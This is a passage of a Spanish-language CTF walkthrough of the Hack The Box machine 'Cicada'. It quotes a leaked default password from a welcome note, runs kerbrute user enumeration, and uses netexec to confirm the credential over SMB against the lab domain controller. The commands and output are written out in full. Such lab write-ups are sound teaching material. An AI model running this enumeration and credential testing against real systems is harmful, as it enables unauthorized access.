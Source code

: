 La nota es la siguiente.

> Dear new hire!                                                          
> Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.                                   
> Your default password is: Cicada$M6Corpb*@Lp#nZp!8                                 
> To change your password:                                        
> 1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.                           
> 2. Once logged in, navigate to your account settings or profile settings section.         
> 3. Look for the option to change your password. This will be labeled as "Change Password".                      
> 4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, an
> d special characters.       
> 5. After changing your password, make sure to save your changes.                                                                                                               
> Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.                               
> If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.
> 
> Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!                                                                 
> Best regards,                          
> Cicada Corp


De la nota encontramos una credencial `Cicada$M6Corpb*@Lp#nZp!8`

También un usuario `support`

Por ahora solo tenemos ese usuario, podemos comprobar si esa credencial es válida para ese usuario. Ni si quiera se si ese usuario existe, así que primero vamos a comprobarlo con `kerbrute`

Me reporta que este usuario no existe.
```console
$ /opt/kerbrute userenum -d cicada.htb --dc CICADA-DC.cicada.htb users.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/30/24 - Ronnie Flathers @ropnop

2024/09/30 18:45:51 >  Using KDC(s):
2024/09/30 18:45:51 >   CICADA-DC.cicada.htb:88

2024/09/30 18:45:51 >  Done! Tested 1 usernames (0 valid) in 0.038 seconds
```

Aún así con `netexec` podemos comprobar que estas credenciales parecen ser válidas..
```console
$ nxc smb 10.129.69.107 -u support -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.129.69.107   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\support:Cicada$M6Corpb*@Lp#nZp!8 
```
